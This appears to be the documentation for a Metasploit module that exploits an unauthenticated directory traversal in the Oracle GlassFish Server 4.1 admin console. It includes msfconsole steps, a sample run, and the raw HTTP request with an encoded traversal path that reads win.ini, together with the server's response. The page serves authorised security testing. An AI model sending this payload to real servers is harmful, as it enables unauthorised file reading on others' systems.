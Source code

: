 ## Vulnerable Application

This module exploits an unauthenticated directory traversal vulnerability which exists in administration console of,
Oracle GlassFish Server 4.1, which is listening by default on port 4848/TCP.

Related links :

* https://www.exploit-db.com/exploits/39441/
* https://www.trustwave.com/Resources/Security-Advisories/Advisories/TWSL2015-016/?fid=6904
* http://download.oracle.com/glassfish/4.1/release/glassfish-4.1.zip - Download Oracle Glass Fish 4.1

## Verification

  1. Start msfconsole
  2. Do: ```use auxiliary/scanner/http/glassfish_traversal```
  3. Do: ```set RHOSTS [IP]```
  4. Do: ```run```
  
## Scenarios

```
msf > use auxiliary/scanner/http/glassfish_traversal 
msf auxiliary(scanner/http/glassfish_traversal) > set RHOSTS 192.168.1.105
RHOSTS => 192.168.1.105
msf auxiliary(scanner/http/glassfish_traversal) > set verbose true
verbose => true
msf auxiliary(scanner/http/glassfish_traversal) > run

[+] 192.168.1.105:4848 - ; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
[MCI Extensions.BAK]
3g2=MPEGVideo
3gp=MPEGVideo
3gp2=MPEGVideo
3gpp=MPEGVideo
aac=MPEGVideo
adt=MPEGVideo
adts=MPEGVideo
m2t=MPEGVideo
m2ts=MPEGVideo
m2v=MPEGVideo
m4a=MPEGVideo
m4v=MPEGVideo
mod=MPEGVideo
mov=MPEGVideo
mp4=MPEGVideo
mp4v=MPEGVideo
mts=MPEGVideo
ts=MPEGVideo
tts=MPEGVideo

[+] File saved in: /home/input0/.msf4/loot/20180804132151_default_192.168.1.105_oracle.traversal_244542.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/glassfish_traversal) >
```

## HTTP Request

```
GET /theme/META-INF/prototype%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%afwindows/win.ini HTTP/1.1
Host: 192.168.1.105:4848
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID=3c54ae091ab200dc3ce8ecfff7c1
Connection: close
Upgrade-Insecure-Requests: 1
If-Modified-Since: Sat, 04 Aug 2018 05:53:42 GMT
```

## HTTP Response

```
HTTP/1.1 200 OK
Content-Length: 403
Content-Type: text/plain
Expires: Mon, 30 Jul 2018 11:16:55 GMT
Last-Modified: Tue, 14 Jul 2009 05:09:22 GMT
Server: Microsoft-HTTPAPI/2.0
Date: Sun, 29 Jul 2018 06:46:55 GMT
Connection: close

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
[MCI Extensions.BAK]
3g2=MPEGVideo
3gp=MPEGVideo
3gp2=MPEGVideo
3gpp=MPEGVideo
aac=MPEGVideo
adt=MPEGVideo
adts=MPEGVideo
m2t=MPEGVideo
m2ts=MPEGVideo
m2v=MPEGVideo
m4a=MPEGVideo
m4v=MPEGVideo
mod=MPEGVideo
mov=MPEGVideo
mp4=MPEGVideo
mp4v=MPEGVideo
mts=MPEGVideo
ts=MPEGVideo
tts=MPEGVideo
```

